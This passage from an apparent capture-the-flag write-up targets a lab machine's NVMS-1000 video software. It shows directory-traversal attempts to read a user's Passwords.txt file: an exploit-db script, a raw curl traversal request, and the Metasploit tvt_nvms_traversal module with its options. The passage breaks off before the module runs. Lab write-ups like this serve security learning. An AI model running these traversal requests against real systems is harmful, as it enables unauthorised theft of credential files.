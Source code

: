 `Notes to do.txt`

```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

### Network reconnaissance: HTTP (let's go back)

Let's use `NVMS-1000` path traversal again but this time with:
`Users/Nathan/Desktop/Passwords.txt` thanks to the information we got on the FTP.

```
$ cat /usr/share/exploitdb/exploits/hardware/webapps/48311.py | dos2unix -c iso -q | python2 - http://10.10.10.184/ Users/Nathan/Desktop/Passwords.txt passwords.txt
dos2unix: active code page: 0
Host not vulnerable to Directory Traversal!
```

No file but we are sure it's here. This exploit looks bad so it may be broken.

With curl no result either:

```
$ curl 'http://10.10.10.184/../../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt' --head
HTTP/1.1 404 Not Found
Content-type: text/html
Content-Length: 0
Connection: close
AuthInfo:
```

But with [metasploit][msf] we get the file (WTF):

```
msf5 > search NVMS

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/tvt_nvms_traversal  2019-12-12       normal  No     TVT NVMS-1000 Directory Traversal


msf5 > use 0
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > options

Module options (auxiliary/scanner/http/tvt_nvms_traversal):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   DEPTH      13                yes       Depth for Path Traversal
   FILEPATH   /windows/win.ini  yes       The path to the file to read
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                 yes       The base URI path of nvms
   THREADS    1                 yes       The number of concurrent threads (max one per host)
   VHOST                        no        HTTP server virtual host
```